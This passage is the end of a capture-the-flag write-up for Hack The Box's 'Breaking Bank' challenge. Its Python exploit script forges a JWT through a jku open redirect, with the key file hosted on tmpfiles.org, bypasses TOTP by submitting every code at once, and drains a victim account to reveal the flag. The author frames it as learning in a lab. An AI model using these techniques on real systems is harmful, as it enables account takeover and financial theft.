 ```Python

# Open the file and upload it
with open(file_name, 'rb') as f:
    files = {'file': f}
    response = requests.post(url, files=files)

jwks_url_id = response.json()["data"]["url"].split("/")[3]
jku_url = f"http://127.0.0.1:1337/api/analytics/redirect?url=https://tmpfiles.org/dl/{jwks_url_id}/jwks.json&ref=dummyref"
print(jku_url)
forged_token = create_forged_jwt(jku_url, kid, priv_key, payload)
print(f'[~] Forged JWT: {forged_token}')

print('[+] Validating forged JWT against /api/dashboard...')
validate_token(forged_token)

financial_token = forged_token

if financial_token:
    fetch_friend_requests(financial_token)
    accept_friend_request(financial_token, dummy_user['email'])

if financial_token and dummy_token:
    cluster_credit_balance = fetch_balance(financial_token)
    if cluster_credit_balance > 0:
        otp = ''.join(str(i) for i in range(1000, 10000))
        make_transaction(financial_token, dummy_user['email'], COIN_SYMBOL, cluster_credit_balance, otp)

    fetch_flag(financial_token)

```
This code allow an automatic exploit, without owning an evil endpoint. 

It register a user, log it in, send a friend request to the account to empty to check if it is working, then use all mentionned above (RSA key generating, upload of `jwks.json`, bypass TOTP...) to fake being the account to empty and send transaction to the newly created account until it reaches 0 which dumps the password on the dashboard, which is being scrapped and outputed in the console. 

# Conclusion

This conclude this interesting challenge that took me more time than required but at least I learnt a valuable code analysis skill that I already used in other capture the flags.  

# Refs

- [Hack the box's Github repo](https://github.com/hackthebox/university-ctf-2024/tree/master/web/%5BEasy%5D%20Breaking%20Bank)
- [TMP Files](https://tmpfiles.org)
